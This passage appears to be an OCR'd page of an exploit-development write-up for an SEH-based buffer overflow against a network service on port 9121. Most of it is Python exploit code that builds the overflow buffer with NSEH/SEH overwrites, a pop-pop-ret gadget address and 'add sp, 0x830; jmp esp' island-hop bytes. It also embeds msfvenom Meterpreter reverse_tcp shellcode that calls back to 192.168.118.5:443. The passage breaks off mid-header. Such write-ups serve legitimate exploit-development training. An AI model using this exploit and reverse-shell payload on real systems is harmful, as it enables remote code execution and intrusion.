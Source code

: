 The next step is to determine the offset from the current stack pointer to the beginning of the shellcode. This will allow us to use the limited space we have to assemble a set of instructions that will allow us to "island hop", redirecting execution to our shellcode.
```
? 01aefc74 - @esp # 01aefc70 is the address from which the 43 43 43 43 is stating 
# the result of this operation will be in hex
```
let's assemble a few instructions to increase the stack pointer by 0x830 bytes followed by a "jmp esp" to jump to the shellcode next.
```
kali@kali:~$ msf-nasm_shell
nasm > add sp, 0x830 # 830 being the result of the previous operation; make sure there is no null bytes
nasm > jmp esp
```
Update the pow to include the ADD assembly instruction, followed by a "jmp esp" to redirect the execution flow to the shellcode
```
try:
    server = sys.argv[1]
    port = 9121
    size = 1000

    shellcode = b"\x90" * 8
    shellcode+= b"\x43" * (400 - len(shellcode))

    inputBuffer = b"\x41" * 124
    inputBuffer+= pack("<L", (0x06eb9090)) # (NSEH) 
    inputBuffer+= pack("<L", (0x1015a2f0)) # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
    inputBuffer+= b"\x90" * 2
    inputBuffer+= b"\x66\x81\xc4\x30\x08" # add sp, 0x830
    inputBuffer+= b"\xff\xe4" # jmp esp
    inputBuffer+= b"\x90" * (size - len(inputBuffer) - len(shellcode))
    inputBuffer+= shellcode
```

### Obtaining a Shell
```
try:
    server = sys.argv[1]
    port = 9121
    size = 1000
    # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.118.5 LPORT=443 -b "\x00\x02\x0A\x0D\xF8\xFD" -f python -v shellcode
    shellcode = b"\x90" * 20
    shellcode += b""
    shellcode += b"\xdb\xdd\xb8\xb3\xe9\xc8\x0b\xd9\x74\x24\xf4"
    ...
    shellcode += b"\xc8\xed\x4c\x07\x0f\x2e\xeb\x18\x3a\x13\x5a"
    shellcode+= b"\x43" * (400 - len(shellcode))
    inputBuffer = b"\x41" * 124
    inputBuffer+= pack("<L", (0x06eb9090)) # (NSEH)
    inputBuffer+= pack("<L", (0x1015a2f0)) # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
    inputBuffer+= b"\x90" * 2
    inputBuffer+= b"\x66\x81\xc4\x30\x08" # add sp, 0x830
    inputBuffer+= b"\xff\xe4" # jmp esp
    inputBuffer+= b"\x90" * (size - len(inputBuffer) - len(shellcode))
    inputBuffer+= shellcode

    header = b"\x75\x19\xba\xab"
    header += b"\x03\x00\x00\x00"
    header += b"\x00\x40\x00\x00"
    header += pack('<I', len(inputBuffer))
    header += pack('<I', len(inputBuffer))
    header += pack('<I', inputBuffer[-1])
```